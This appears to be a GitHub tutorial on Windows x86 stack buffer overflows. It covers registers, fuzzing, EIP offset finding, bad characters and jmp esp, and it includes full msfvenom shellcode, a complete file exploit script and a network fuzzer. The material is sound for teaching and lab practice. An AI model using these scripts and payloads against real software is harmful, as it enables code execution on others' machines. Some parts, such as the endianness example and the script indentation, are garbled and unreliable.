


# Introduction
To better understand how we can perform such exploits we need to first know how programms get executed.<br>
In brief the CPU execute what is machine-code it is very low level instruction that we rappresent with assembly.<br>
The cpu has a standard routine in which performs its operation:<br>

- FETCH (the machine instruction address is read from IAR(Instruction Address Register) and loaded to IR(Intruction Register))
- Decode (The decoder convert the instruction in a cpu language ready to be oprated on)
- Fetch Operand (Load eventual other data needed for processing)
- Execute (The instruction is executed, for example an ALU operation)
- Update Instruction Pointer (Eventually the instrunction pointer is incremented with the length of the executed instruction, that means the programm pass to next instruction)

But to perform all these operations the CPU need temporary places to store information that need to be read write and executed.<br>

# Registers

To store the temprary data needed for the operations CPUs uses registers, there are different types of register based on its need:

- [Data Registers](#Data-Registers)
- [Pointer Registers](#Pointer-Registers)
- [Stack Frames](#Stack-Frames)
- [Index Registers](#Index-Registers)

## Data-Registers

|32-bits|64-bits|Description|
|-----------|------------|------------------|
|EAX|RAX|Accumulator register used  for storing small input/output data and basic arithmetic|
|EBX|RBX|It is used as base for addresses, (an address is identified by BX + offset: mov rax, [rbx + rdi * 8])|
|ECX|RCX|Counter register used to count loop and instruction rotation|
|EDX|RDX|Data register used to store large input/output data and advanced arithmetic (x and /)|

## Pointer Registers
|32-bits|64-bits|Description|
|-----------|------------|------------------|
|EIP|RIP|Instruction Pointer, store the offset address of the _next instruction to be executed_|
|ESP|RSP|Stack Pointer, store the address of the _top of the stack_, important for baisc buffer overflow|
|EBP|RBP|Base Pointer (or Frame Pointer), store the address of _base of the stack_|

## Stack Frames

As the stack "grows" to lower addresses it is logically divided in region named `Stack Frames`, in fact for every function a stack space is initialized.<br>
To do so in practice we first need to do the following steps named [Prologue](https://en.wikipedia.org/wiki/Function_prologue_and_epilogue):

### Pologue

- Store previous EBP address (we will restore the address once the function code ends)
- Create a Stack Frame (with this instruction: `mov ebp, esp`)
- Allocate some space on the stack by adding the sum of the space of the function's operation (`sub esp,0x<operation_length>`) 

Example for main:
	

	

### Epilogue

Once the function has ended its code is time to return to the previous stack frame, to do so we nee to do the following steps named [Epilogue](https://en.wikipedia.org/wiki/Function_prologue_and_epilogue)

- Leave the current Stack Frame (`leave`)
- Eventually return (`ret`) 

Example for main:
	

	

## Index Registers

|32-bits|64-bits|Description|
|------------|------------|------------------------------------|
|ESI|RSI|It is the source index used when handling string operations, store the source index of a string|
|EDI|RDI|It is the destionation index, it stores the index destination index of a string|

# Endianness

In order to execute and read data we need to have a convention for interpreting that data.<br>
For this reason different technlogies uses different conventions: such as Little-Endian and Big-Endian.<br>
To understand better we can see an example with an address:

- Address (0x): `0xffaa5511`
- Address (\x): `\xff\xaa\x55\x11`

|Convention|Byte ff|Byte aa|Byte 55|Byte 11|
|----------|-------|-------|-------|-------|
|Big Endian|AA|BB|CC|DD|
|Little Endian|DD|CC|BB|AA|

So the rappresentation would be:

- Little-Endian: `\xff\xaa\xcc\dd`
- Big-Endian: `\xdd\xcc\xaa\xff`

# Windows-Stack-overflow-basics

This is a small repo for Windows Stack-Based Buffer overflow(x86).
<br>

* [Lab Setup](#lab-setup)
<br>

* [Identify the vulnerable field](#reconnaissance)
<br>

* [Bad chars detection](#Bad-Chars)
<br>

* [Finding ret instruction](#Finding-ret-instruction)
<br>

* [Payload Creation](#Payload-creation)

<br>

* [Remote Exploitation](#Remote-exploitation)

<br>

# Lab Setup

For the lab i will use a windows 10 machine with:
<br>


## Decompiler and Debuger
[Cutter](https://cutter.re/)

## Debugger and Patcher
[x64dbg](https://x64dbg.com/)
We just need to download from the site and put it in
```cmd
C:\Program Files\x64dbg\
```

## Buffer Overflow Extension
[ERC](https://github.com/Andy53/ERC.Xdbg)
To install it we just need to download the latest .zip folder from the [release page](https://github.com/Andy53/ERC.Xdbg/releases) and extract in:
```cmd
C:\Program Files\x64dbg\x32\plugins\
```
!BE SURE TO DOWNLOAD THE RIGHT VERSION FOR UR DEBUGGER: \_32 for x86 and \_64 for x64!
Once we have done that we can set the output directory in cmd:
```cmd
ERC --config SetWorkingDirectory C:\Users\%USERNAME%\Desktop\
```
Now we are ready to do some Buffer Overflow:

# Reconnaissance

To exploit a Buffer-Overflow vulnerability we need to find one first.
<br>
To do so we need to start our .exe and attach the process in x32dbg:
<br>
In the top left corner of the debugger just click file and the _attatch_ option with the earth icon and this will pop out:
	

	
after attaching the process we need to [fuzz](https://www.wired.com/2016/06/hacker-lexicon-fuzzing/) all the input fields that the program expose.
<br>
If a program exposes to many fields just go for the ones that expect the smaller input such as

* Date
* Name
* selection fileds (y\n) (m\f)
* File inputs
<br>

To fuzz those Fields i will send the most basic payload generated like this:
```bash
python3 -c "print('A'*1000)" 
```
This is for creating file payloads:
```bash
python3 -c "print('A'*1000, file=open('<file_name>', 'w'))" 
```
Once we have sent the data if the program crashes we need to check the $EIP register.
<br>

If this register is overwrritten with `4141414141` we succesfully find a possible stack overflow field.
<br>

In fact by overwriting the $EIP (the 32 bit version of the `instruction pointer`) we can controll what the program will execute next.
<br>

This register keep track of the last instruction that was called so the program can _return_ the value and continue the exection from the _address_ pointed from the $EIP.
<br>

Although we overwritten the $EIP we don't know how many chars we sent to trigger only the $EIP.
<br>

In fact in order to execute shell code with a Stack-Overflow we need to controll the address that the $EIP will be overwritten with.
<br>

To do so we will use a pattern to fuzz the input fields. We can create them in many ways like msf:
```bash
msf-pattern_create -l 1000
```
or with ERC in the x32dbg terminal
```cmd
ERC --pattern c 1000
```  
To write those patterns to a file we can write a bunch of python code:
```python
payload = bytes(<erc_output>,"utf-8")
with open('<file_name>', 'wb') as f:
	f.write(payload)
```
We now have our file or text payload to fuzz the input.
Once we overwritten the $EIP we will have a random value in the $EIP.
<br>

To understand what is the $EIP offset we need search the value that we got inside the $EIP.
<br>


For example:
	

	
in this case the $EIP is rewritten with `31684630`
<br>

we need to search this number in the pattern that we created:
```bash
msf-pattern_offset -q 31684630
```
output:
```bash
[*] Exact match at offset 4112
```
If we want to search in ERC we can convert those bytes into ascii:
```python
hex_string = "<eip_bytes>"  
byte_string = bytes.fromhex(hex_string)  
ascii_string = byte_string.decode("ASCII")  
print(ascii_string)  
```
output:
```
1hF0
```
and then search them with:
```cmd
ERC --pattern o 1hF0
```
<br>

Now that we can controll the exact value of the $EIP we need to set it to an arbitrary address like this:
```python
def eip_control():
    offset = 4112  #insert the offset
    buffer = b"A"*offset
    eip = b"B"*4  #chose the address that will be written in $EIP
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload) 	#create a file handle and write the payload

eip_control()	#call the function
```
But before we set the $EIP address there is still one thing to check:

# Bad Chars 

When we inject the program field, our payload must avoid [control chars](https://en.wikipedia.org/wiki/Control_character); in fact they are non printable chars that tells the program what to do (like a string or file termination)
<br>

To test what chars we need to avoid we can create a test payload like this:
<br>

in ERC we need to run:
```cmd
ERC --bytearray
```
output:
	

	
the command will also save theme in the working dir(IMPORTANT FOR LATER!).
<br>

Once we have that we can craft our text or file payload:
```python
def bad_chars():
    all_chars = bytes([<byte_array>]) #add the byte array that we got from the ERC command
    
    offset = 4112 	#calculated offset
    buffer = b"A"*offset
    eip = b"B"*4 	#new eip address
    payload = buffer + eip + all_chars 	#add the bad chars to the payload
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)	#write everything to a file or just print it

bad_chars()
```
Once we have created the payload and the programm is crashed we should manually check the stack if some of the char is no longer present inside it;
<br>

But luckily for us ERC will do the dirty job for us.
<br>

We just need to find the address of the stack pointer($ESP) and run:
```cmd
ERC --compare <$ESP_address> C:\Users\%USERNAME%\Desktop\ByteArray_1.bin
```
If the output is something like this:
	

	
The 0x00 very likely cutted the bytes after it so we need to test the payload without it.
<br>

To generate the test payload without bad chars we need to do:
```cmd
ERC --bytearray -bytes 0x00 #add or use ur bad-chars
```
and repeat the steps above to check.

# Finding ret instruction

Now we can overwrite the $EIP with an address of our choice, but how can we benefit from that?
<br>

how can we execute code?

## Jumping to the stack

To execute code, we will put code on-to the stack and map the $EIP to the $ESP this means that the next code that will be executed is the stack content (written by us).
<br>

!!be careful!!
```
Modern systems and programs are compiled with the NX bit on the stack or the DEP memory protection in Windows, which prevents executing any code written on the stack
```
<br>

With that said we can try the exploit for the sake of learning.
<br>

Instead of overwriting the $EIP with $ESP (because contains 0x00) we can also write the instruction
```
jmp esp
```
that will do the same.
<br>

To do so we need to either locate:
* the program .exe file
* the program .dll library
* any windows .dll that is imported
<br>

to find all the modules we can run:
```cmd
ERC --ModuleInfo
```
Is better to search for a library that has all the memory protection set to False; also it would be better to chose a
library related to the executable as we are pretty shure that there will be no version problems.
Once we have chosen the library in the symbols section
we can double click on the library to see the instructions.
<br>

Now we can search with `Ctrl + f` the `jmp esp` instruction (also the `call esp` work for us)
<br>

We can also search for pattern that will result the same as `jmp esp` like(instruction followed by machine code translation in [online assembler](https://defuse.ca/online-x86-assembler.htm) or msf-nasm_shell):

* PUSH ESP; RET (54C3) 
* JMP ESP (FFE4)

<br>

With `Ctrl + b` we can search for hex patterns
<br>

!!THE MOST IMPORTANT PART IS THAT THE INSTRUCTION ADDRESS MUST NOT CONTAIN ANY BAD CHARS!!   

# Payload creation

This is the most important part where we craft our shell code to put on top-of the stack.
<br>

To craft our payload i will use msfvenom on a kali machine, here is a little payload example:
```bash
msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
```
output:
```shell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1100 bytes
buf =  b""
buf += b"\xbe\x3b\x8d\x37\xd4\xdb\xcf\xd9\x74\x24\xf4\x5f"
buf += b"\x2b\xc9\xb1\x31\x31\x77\x13\x83\xef\xfc\x03\x77"
buf += b"\x34\x6f\xc2\x28\xa2\xed\x2d\xd1\x32\x92\xa4\x34"
buf += b"\x03\x92\xd3\x3d\x33\x22\x97\x10\xbf\xc9\xf5\x80"
buf += b"\x34\xbf\xd1\xa7\xfd\x0a\x04\x89\xfe\x27\x74\x88"
buf += b"\x7c\x3a\xa9\x6a\xbd\xf5\xbc\x6b\xfa\xe8\x4d\x39"
buf += b"\x53\x66\xe3\xae\xd0\x32\x38\x44\xaa\xd3\x38\xb9"
buf += b"\x7a\xd5\x69\x6c\xf1\x8c\xa9\x8e\xd6\xa4\xe3\x88"
buf += b"\x3b\x80\xba\x23\x8f\x7e\x3d\xe2\xde\x7f\x92\xcb"
buf += b"\xef\x8d\xea\x0c\xd7\x6d\x99\x64\x24\x13\x9a\xb2"
buf += b"\x57\xcf\x2f\x21\xff\x84\x88\x8d\xfe\x49\x4e\x45"
buf += b"\x0c\x25\x04\x01\x10\xb8\xc9\x39\x2c\x31\xec\xed"
buf += b"\xa5\x01\xcb\x29\xee\xd2\x72\x6b\x4a\xb4\x8b\x6b"
buf += b"\x35\x69\x2e\xe7\xdb\x7e\x43\xaa\xb1\x81\xd1\xd0"
buf += b"\xf7\x82\xe9\xda\xa7\xea\xd8\x51\x28\x6c\xe5\xb3"
buf += b"\x0d\x82\xaf\x9e\x27\x0b\x76\x4b\x7a\x56\x89\xa1"
buf += b"\xb8\x6f\x0a\x40\x40\x94\x12\x21\x45\xd0\x94\xd9"
buf += b"\x37\x49\x71\xde\xe4\x6a\x50\xbd\x6b\xf9\x38\x6c"
buf += b"\x0e\x79\xda\x70"
```
Before sending the payload as it is after the $EIP address we need to add padding due to [stack-alignment](https://stackoverflow.com/questions/672461/what-is-stack-alignment) reasons; usually this padding should be tested as far as the shell code is executed without truncation but if u have plenty of buffer u can add 32 `NOP (0x90)` instruction and you should be safe pretty much everywhere.
<br>

Now we can finally craft our python exploit to create our malicious string or file (to convert the address in little Endian we can use python struct):
```python
from struct import pack

def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00' (write the command that generated the payload)
    buf =  b""		#change with your shellcode
	buf += b"\xbe\x3b\x8d\x37\xd4\xdb\xcf\xd9\x74\x24\xf4\x5f"
	buf += b"\x2b\xc9\xb1\x31\x31\x77\x13\x83\xef\xfc\x03\x77"
	buf += b"\x34\x6f\xc2\x28\xa2\xed\x2d\xd1\x32\x92\xa4\x34"
	buf += b"\x03\x92\xd3\x3d\x33\x22\x97\x10\xbf\xc9\xf5\x80"
	buf += b"\x34\xbf\xd1\xa7\xfd\x0a\x04\x89\xfe\x27\x74\x88"
	buf += b"\x7c\x3a\xa9\x6a\xbd\xf5\xbc\x6b\xfa\xe8\x4d\x39"
	buf += b"\x53\x66\xe3\xae\xd0\x32\x38\x44\xaa\xd3\x38\xb9"
	buf += b"\x7a\xd5\x69\x6c\xf1\x8c\xa9\x8e\xd6\xa4\xe3\x88"
	buf += b"\x3b\x80\xba\x23\x8f\x7e\x3d\xe2\xde\x7f\x92\xcb"
	buf += b"\xef\x8d\xea\x0c\xd7\x6d\x99\x64\x24\x13\x9a\xb2"
	buf += b"\x57\xcf\x2f\x21\xff\x84\x88\x8d\xfe\x49\x4e\x45"
	buf += b"\x0c\x25\x04\x01\x10\xb8\xc9\x39\x2c\x31\xec\xed"
	buf += b"\xa5\x01\xcb\x29\xee\xd2\x72\x6b\x4a\xb4\x8b\x6b"
	buf += b"\x35\x69\x2e\xe7\xdb\x7e\x43\xaa\xb1\x81\xd1\xd0"
	buf += b"\xf7\x82\xe9\xda\xa7\xea\xd8\x51\x28\x6c\xe5\xb3"
	buf += b"\x0d\x82\xaf\x9e\x27\x0b\x76\x4b\x7a\x56\x89\xa1"
	buf += b"\xb8\x6f\x0a\x40\x40\x94\x12\x21\x45\xd0\x94\xd9"
	buf += b"\x37\x49\x71\xde\xe4\x6a\x50\xbd\x6b\xf9\x38\x6c"
	buf += b"\x0e\x79\xda\x70"

    offset = 4112	#change with your offset
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)  #change with your jmp esp address
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:	#change with your file name or text output
        f.write(payload)
exploit()
```
Once we have launched the attack we will gain a calc.exe (that we can substitute with a cmd.exe or powershell.exe)

# Remote exploitation

A buffer overflow attack is much more powerfull if its attack vector is the network.
<br>

In fact if we can connect to an opensource application we can also debug the code locally and test for particular input as we did in the [FUZZING](#Reconnaissance) part.
<br> 

First we need to identify what port or webserver the service is running on (this is an example of a simple socket on port 8888)
and we will try to craft our payload:
```python
import socket
from struct import pack

IP = "127.0.0.1"	#insert ur ip
port = 8888		#ur port

def fuzz():	#define fuzz function
	try:
	    for i in range(0,10000,500):	#send data until the programm crashes
	        buffer = b"A"*i
	        print(f"Fuzzing {i} bytes")
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((IP, port))
			s.send(buffer)
			breakpoint()	#set a preakpoint so we can check when the $EIP got overwritten
			s.close()
	except:
		print("[*]Connection failure")

fuzz() #call fuzz function
```
Once we have found the right payload size like this (in this case we need to send 1500 bytes):
	

	
Now we can craft our payload in the same way that we did above.
<br>

So create unique pattern, check where the $eip offset is then search `jmp esp` and wrote shell code on top of the stack.

# Linux-Stack-overflow-basics


